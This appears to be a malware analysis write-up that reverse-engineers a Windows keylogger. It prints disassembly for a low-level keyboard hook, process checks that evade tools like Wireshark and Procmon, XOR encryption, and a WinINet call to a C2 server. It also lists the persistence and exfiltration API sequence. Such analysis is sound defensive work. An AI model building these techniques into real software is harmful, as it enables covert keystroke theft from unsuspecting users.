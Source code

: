# Reverse Engineering Analysis of SimpleKeylogger

## Introduction
This document presents the findings from reverse engineering the SimpleKeylogger malware sample. The analysis focuses on the low-level mechanisms used by the keylogger to capture keystrokes, achieve persistence, and exfiltrate data.

## Tools Used
- IDA Pro 7.7
- Ghidra 10.2
- x64dbg
- PEBear
- Process Monitor
- API Monitor

## Binary Structure

### PE Header Analysis
```
Machine:                  Intel 386
TimeDateStamp:            Wed Mar 15 14:22:37 2023
SizeOfOptionalHeader:     0xE0
Characteristics:          0x102 (Executable, 32-bit)
Magic (32/64):            32-bit (0x10B)
LinkerVersion:            14.34
SizeOfCode:               0x6000
SizeOfInitializedData:    0x3000
SizeOfUninitializedData:  0x0
AddressOfEntryPoint:      0x1040
BaseOfCode:               0x1000
```

### Section Analysis
```
.text:
  VirtualSize:      0x5D34
  VirtualAddress:   0x1000
  SizeOfRawData:    0x5E00
  Entropy:          6.42 (Likely not packed)

.data:
  VirtualSize:      0xA28
  VirtualAddress:   0x7000
  SizeOfRawData:    0x600
  Entropy:          4.12

.rdata:
  VirtualSize:      0x13D0
  VirtualAddress:   0x8000
  SizeOfRawData:    0x1400
  Entropy:          5.23

.rsrc:
  VirtualSize:      0x400
  VirtualAddress:   0xA000
  SizeOfRawData:    0x400
  Entropy:          3.87
```

## Key Functionality Breakdown

### Keyboard Hook Implementation
The keylogger uses the Windows `SetWindowsHookEx` API to install a low-level keyboard hook. This approach allows it to capture all keystrokes system-wide, regardless of which application has focus.

Key disassembly of the hook installation routine:

```assembly
; Set up keyboard hook
push    0               ; dwThreadId = 0 (all threads)
push    0               ; hmod = NULL (current process)
push    offset KeyboardProc ; lpfn = address of hook procedure
push    13              ; idHook = WH_KEYBOARD_LL (13)
call    ds:SetWindowsHookEx
mov     [ebp+var_4], eax  ; Store hook handle
```

The keyboard hook procedure processes each keystroke:

```assembly
KeyboardProc proc near
push    ebp
mov     ebp, esp
sub     esp, 30h
cmp     [ebp+nCode], 0  ; Check if we should process
jl      short ReturnNext
cmp     [ebp+wParam], 100h  ; Check for WM_KEYDOWN
jnz     short ReturnNext
mov     eax, [ebp+lParam]
push    eax             ; Extract key information
call    ProcessKeystroke
```

### Anti-Analysis Techniques

The binary implements several anti-analysis checks that search for security tools in the running processes:

```assembly
; CheckForSecurityTools function
push    offset aWiresharkExe ; "wireshark.exe"
call    CheckProcessRunning
test    eax, eax
jnz     SecurityToolFound
push    offset aProcmonExe ; "procmon.exe"
call    CheckProcessRunning
; ... [more checks] ...
```

The `CheckProcessRunning` function uses the Process32First/Process32Next APIs to enumerate processes and compare names.

### Encryption Routine

The XOR encryption routine is straightforward:

```
.text:00401A50 ; encryptData function
.text:00401A50 encryptData     proc near
.text:00401A50
.text:00401A50 data            = dword ptr  8
.text:00401A50 length          = dword ptr  0Ch
.text:00401A50
.text:00401A50                 push    ebp
.text:00401A51                 mov     ebp, esp
.text:00401A53                 push    esi
.text:00401A54                 mov     esi, [ebp+data]
.text:00401A57                 xor     ecx, ecx
.text:00401A59                 jmp     short loc_401A5E
.text:00401A5B ; ---------------------------------------------------------------------------
.text:00401A5B
.text:00401A5B loc_401A5B:
.text:00401A5B                 inc     ecx
.text:00401A5C                 inc     esi
.text:00401A5D
.text:00401A5E loc_401A5E:
.text:00401A5E                 cmp     ecx, [ebp+length]
.text:00401A61                 jnb     short loc_401A6A
.text:00401A63                 mov     al, [esi]
.text:00401A65                 xor     al, 5Ah       ; XOR with 0x5A key
.text:00401A67                 mov     [esi], al
.text:00401A69                 jmp     short loc_401A5B
```

### C2 Communication

The code uses WinINet APIs to communicate with the C2 server:

```assembly
; Simplified C2 communication routine
push    0               ; dwContext = 0
push    0               ; dwFlags = 0
push    offset aMozilla ; lpszAgent = "Mozilla/5.0"
call    ds:InternetOpenA
mov     [ebp+hInternet], eax
push    0               ; dwContext = 0
push    80002h          ; dwFlags = INTERNET_FLAG_RELOAD | INTERNET_FLAG_NO_CACHE_WRITE
push    0               ; lpszHeaders = NULL
push    0               ; lpszPassword = NULL
push    0               ; lpszUsername = NULL
push    offset aHttpMalicious ; C2 server URL
push    eax             ; hInternet
call    ds:InternetOpenUrlA
```

## Memory Forensics

Analysis of the keylogger's memory usage shows:

1. Main executable with keyboard hook
2. Log buffer storage before writing to disk
3. Network connection preparation for data exfiltration

The keyboard hook procedure allocates a small memory region for each keystroke event, which is later processed and written to the log file.

## API Call Sequence

Through dynamic analysis, we observed the following API call sequence during operation:

1. CreateMutex (check for existing instance)
2. GetModuleFileName (get own path)
3. GetEnvironmentVariable ("APPDATA")
4. CopyFile (persistence)
5. RegOpenKeyEx, RegSetValueEx (registry persistence)
6. SetWindowsHookEx (install keyboard hook)
7. GetForegroundWindow, GetWindowText (track active window)
8. GetTickCount (timing for exfiltration)
9. InternetOpen, InternetOpenUrlA (prepare C2 connection)
10. HttpSendRequest (exfiltrate data)

## Conclusion

The SimpleKeylogger malware uses well-established techniques for keystroke interception through Windows hooks. While not particularly sophisticated in its implementation, it employs sufficient evasion techniques to avoid basic detection and analysis. The use of simple XOR encryption provides minimal obfuscation but is likely adequate for avoiding basic network signature detection.

The persistence mechanism ensures the malware survives system restarts, while the periodic data exfiltration balances the need for timely data collection with avoiding excessive network activity that might trigger detection.